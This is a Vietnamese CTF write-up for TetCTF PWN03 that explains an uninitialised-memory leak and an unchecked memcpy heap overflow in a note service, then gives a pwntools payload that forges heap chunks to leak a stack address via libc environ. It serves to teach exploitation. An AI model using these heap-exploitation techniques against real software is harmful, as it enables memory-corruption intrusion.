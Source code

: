 # TETCTF



## PWN03-FLAG1

* Để lấy flag1 thì ở đây chúng ta phải khai thác được `interface`
* Đầu tiên ta thấy ngay là ở hàm `add_new_note` khi `malloc` cho `content` thì không khởi tạo giá trị ban đầu nên trên chunk được `malloc` sẽ vẫn còn những giá trị cũ nên có thể dùng để leak



```cpp=
if(tmp->note_content){
			free(tmp->note_content);
		}
		tmp->note_content = malloc(content_len);
		tmp->note_content_len = content_len;
		fgets(tmp->note_content, content_len, stdin);
		tmp->note_synced = 0;
```

* Bug tiếp theo ở hàm `note_sync`

```cpp=
Note_t new_note = Note_init(serialize_p->note_title, serialize_p->note_author,serialize_p->note_content_len, serialize_p->note_is_encrypt);

read_count += sizeof(struct NoteSerialize);
Note_t p_note;
DL_SEARCH(notes, search_note, new_note, Note_cmp);
p_note = search_note;
if(!search_note){
	p_note = new_note;
	}

				// update new content
if(!p_note->note_is_encrypt){
		memcpy(p_note->note_content, serialize_p->content, serialize_p->note_content_len);
		read_count += new_note->note_content_len;
				}

```

* Khi mà có `1` note trên `backend` có cùng `title` và `author` thì chương trình sẽ sao chép `content` ở note trên `backend` vào `content` ở `note` trên `interface`. Ở đây ta thấy nó không check bound trước khi copy và vì `note` trên `interface` có thể không đồng bộ với trên `backend` khi ta dùng hàm `edit_note` nếu `note` không có `is_encrypt` bit thì sẽ chỉ thay đổi trên `interface` do vậy ta có `BOF` ở đây
* Đầu tiên thì mình sẽ leak `stack`. Dùng `heap overflow` để overwrite `1` note trên `interface`, thay đổi field `content`

```py=
payload = b'A'*0x10
payload += p64(0) + p64(0x91)
payload += p64(0x62) + p64(0)*7
payload += p64(0x62) + p64(0)*3
payload += p64(0x10) + p64(0) + p64(libc.symbols['environ']) + p64(heap + 0x370)
payload += p64(0) + p64(0x21)
payload += p64(libc.address + 0x21ace0)*2
payload += p64(0) + p64(0x91)
payload += p64(0x61) + p64(0)*7
payload += p64(0x61) + p64(0)*3
payload += p64(0x200) + p64(0)*4 + p64(0xf1)
payload += p64(libc.address + 0x21ace0)*2
payload = payload.ljust(0x200, b'\x00')
new_note(b'a', b'a', 0x200, payload)
```